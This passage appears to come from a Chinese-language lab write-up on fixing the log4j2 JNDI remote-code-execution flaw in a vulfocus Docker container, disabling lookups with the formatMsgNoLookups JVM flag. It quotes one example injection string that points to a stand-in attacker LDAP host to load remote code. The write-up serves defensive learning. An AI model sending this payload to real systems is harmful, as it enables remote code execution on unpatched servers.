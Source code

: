     - 至此，log4j2 漏洞缓解成功，并验证了缓解效果。

### log4j2 漏洞修复完成，并验证了修复效果

1. log4j2 漏洞触发原理：
    
    - log4j2在解析日志信息时，支持 JNDI（Java Naming and Directory Interface） 查找，即在收到携带 ```${jndi:ldap://attacker.com:1389/Exploit}``` 这样类似的输入时，会尝试解析 ```${jndi:...}``` ，访问 ldap 服务器 ```ldap://attacker.com:1389``` ，远程加载 JAVA 代码导致 RCE（远程代码执行）。
    - 那么比较简单紧急的修复思路就是，禁用默认的 JNDI 查找。

2. 通过修改 JVM 参数紧急修复漏洞

    - 现将原来的漏洞容器删除
    ```
    docker stop <容器id>
    docker rm <容器id>
    ```
    <div><img src="img/删除原有容器.png" width=100%></div>

    - ```formatMsgNoLookups``` 参数控制 Log4j2 是否允许在日志消息中执行变量查找，通过添加该参数启用来禁用 Log4j2 在日志消息中的 ```${}``` 变量查找，即让 log4j2 不再解析 jndi 来避免 RCE 。
    ```
    docker run -d -p 8888:8080 --name log4j2-vuln \
    vulfocus/log4j2-rce-2021-12-09 \
    java -Dlog4j2.formatMsgNoLookups=true -jar /demo/demo.jar
    ```